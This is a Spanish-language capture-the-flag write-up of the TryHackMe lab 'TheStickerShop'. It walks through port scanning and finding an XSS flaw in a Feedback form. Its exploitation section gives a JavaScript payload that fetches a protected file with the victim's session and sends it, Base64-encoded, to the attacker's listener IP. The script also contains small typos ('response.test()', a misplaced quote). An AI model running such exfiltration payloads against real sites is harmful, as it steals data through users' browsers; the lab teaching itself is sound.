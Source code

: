 ```yaml
---
title: TheStickerShop - TryHackMe
published: 2024-12-05
description: 'En este WriteUp se analizó un servidor con los puertos 22/tcp (SSH) y 8080/tcp (HTTP) abiertos. Si bien no se detectaron vulnerabilidades en el servicio SSH, en el servidor web por otro lado se identificó una vulnerabilidad de XSS (Cross-Site Scripting) en el formulario de la sección Feedback, que permitió ejecutar código JavaScript malicioso en el navegador. Esto se explotó para realizar data exfiltration del archivo protegido flag.txt'
image: '../../../assets/TryHackMe/TheStickerShop/banner-thestickershop-lab.png'
tags: [TryHackMe, ReadTeam, Pentesting, HTTP, XSS, Data Exfiltration, Linux]
category: 'WriteUp'
draft: false 
---
```


## Introduction

En este WriteUp de la máquina TheStickerShop de la plataforma de **[TryHackMe](https://tryhackme.com)** se analizó un servidor con los puertos **22/tcp (SSH)** y **8080/tcp (HTTP)** abiertos. Si bien no se detectaron vulnerabilidades en el servicio SSH, en el servidor web por otro lado se identificó una vulnerabilidad de **XSS (Cross-Site Scripting)** en el formulario de la sección `Feedback`, que permitió ejecutar código JavaScript malicioso en el navegador. Esto se explotó para realizar **data exfiltration** del archivo protegido `flag.txt`.

~~~
Platform: TryHackMe
Level: Easy
OS: Linux
~~~

## Reconnaissance

~~~
Target IP: 10.10.127.143
~~~

>  La tienda local de pegatinas finalmente ha desarrollado su propia página web. No tienen demasiada experiencia con respecto al desarrollo web, por lo que decidieron desarrollar y alojar todo en la misma computadora que usan para navegar por Internet y observar los comentarios de los clientes. ¡Movimiento inteligente!
> 
> Puedes leer la bandera en `http://10.10.127.143:8080/flag.txt`?

![TheStickerShop Yw4rf](../../../assets/TryHackMe/TheStickerShop/sticker-0.png)

Comenzamos con el comando **ping**, que utiliza el **ICMP (Protocolo de Control de Mensajes de Internet)**. Este comando envía un mensaje de “echo request” a una dirección IP y espera recibir un mensaje de “echo response”. Este proceso permite verificar si una máquina en la red es accesible y medir la latencia. Además, se puede inferir que es una máquina **Linux** debido al **TTL = 63**

![TheStickerShop Yw4rf](../../../assets/TryHackMe/TheStickerShop/sticker-1.png)

## Scanning

El paquete fue recibido correctamente por la máquina objetivo. Verificada la conexión, realizamos un escaneo de múltiples etapas con la herramienta **Nmap**. Primero, identificamos los puertos abiertos:

![TheStickerShop Yw4rf](../../../assets/TryHackMe/TheStickerShop/sticker-2.png)

Se encontraron los puertos abiertos **22/tcp** y **8080/tcp**. A continuación, realizamos un escaneo más detallado utilizando la la flag `-sCV` para obtener más información de los puertos:

![TheStickerShop Yw4rf](../../../assets/TryHackMe/TheStickerShop/sticker-3.png)

## Enumeration

### 22/tcp SSH

El puerto **22/tcp** ejecuta el servicio `OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)`.

- No se identificaron vulnerabilidades conocidas en esta versión del servicio.
- Este puerto fue descartado como vector de ataque para esta etapa.

### 8080/tcp HTTP

El puerto **8080/tcp** aloja un servidor web identificado como `http-proxy Werkzeug/3.0.1 Python/3.9.10`.

- Al navegar a la URL principal, encontramos un sitio web dedicado a la venta de stickers de gatos.
- La página presenta dos secciones principales: `Home` y `Feedback`.

Al acceder a la sección `Home` no se observaron elementos interactivos relevantes ni indicios de vulnerabilidades explotables.

![TheStickerShop Yw4rf](../../../assets/TryHackMe/TheStickerShop/sticker-4.png)

Al acceder a la sección `Feedback` se muestra un formulario que permite a los usuarios enviar comentarios.

![TheStickerShop Yw4rf](../../../assets/TryHackMe/TheStickerShop/sticker-5.png)

Al intentar acceder a la URL `http://10.10.127.143:8080/flag.txt` devolvió un error **401 Unauthorized**, lo que indica que el acceso al archivo está restringido.

![TheStickerShop Yw4rf](../../../assets/TryHackMe/TheStickerShop/sticker-6.png)

En el formulario de la sección `Feedback` exploramos posibles vulnerabilidades. En particular **Cross-Site Scripting (XSS)**, dado que los formularios son un vector común para este tipo de ataque.

En primer lugar, niciamos un servidor HTTP en el puerto **80** de nuestra máquina atacante para recibir posibles solicitudes: `sudo python3 -m http.server 80`

![TheStickerShop Yw4rf](../../../assets/TryHackMe/TheStickerShop/sticker-7.png)

Luego, en el formulario de `Feedback`, enviamos el siguiente payload: `<img src="http://10.21.66.133/test">`. Este código intenta cargar una imagen desde nuestro servidor. Si el navegador del objetivo procesa el payload, el servidor HTTP recibiría una solicitud GET.

![TheStickerShop Yw4rf](../../../assets/TryHackMe/TheStickerShop/sticker-8.png)

Al verificar el servidor de escucha, se observó una solicitud entrante, lo que confirma que el payload fue ejecutado exitosamente por el navegador de la víctima.

![TheStickerShop Yw4rf](../../../assets/TryHackMe/TheStickerShop/sticker-9.png)

## Exploitation

Confirmada la vulnerabilidad, utilizamos un payload más avanzado para extraer el contenido del archivo `flag.txt` y enviarlo a nuestro servidor:

~~~JS
<script>
	fetch("/flag.txt", { method: 'GET', mode: 'no-cors', credentials: 'same-origin'})
		.then(response => response.test())
		.then(data => {
			let img = new Image();
			img.src = "http://10.21.66.133:80/" + btoa(data);
		});
</script>
~~~

- `fetch("/flag.txt", {...})`
    - Solicita el archivo `flag.txt` utilizando las credenciales de la sesión activa del navegador.
    - El modo `'no-cors'` evita restricciones relacionadas con políticas de origen cruzado, permitiendo que la solicitud sea procesada por el servidor.
- `.then(response => response.text())`
    - Convierte la respuesta obtenida (el contenido del archivo) en texto legible.
- `btoa(data)`
    - Codifica el texto en Base64 para evitar problemas al enviarlo como parte de una URL.
- `let img = new Image(); img.src = "http://10.21.66.133:80/" + btoa(data);`
    - Crea un objeto de imagen que realiza una solicitud GET a nuestro servidor con el contenido codificado como parte de la URL.
    - Este enfoque garantiza que los datos extraídos sean enviados a nuestro servidor incluso con restricciones de CORS.

![TheStickerShop Yw4rf](../../../assets/TryHackMe/TheStickerShop/sticker-10.png)

Al ejecutar el payload, nuestro servidor recibió una solicitud con el contenido del archivo `flag.txt` codificado en Base64.

![TheStickerShop Yw4rf](../../../assets/TryHackMe/TheStickerShop/sticker-11.png)

Decodificamos el contenido usando el siguiente comando: `echo "<TEXTO EN BASE64> | base64 --decode"`  

![TheStickerShop Yw4rf](../../../assets/TryHackMe/TheStickerShop/sticker-12.png)

Una vez decodificado el texto, nos devuelve la flag. Completado el objetivo hemos finalizado la máquina y por ende hemos terminado.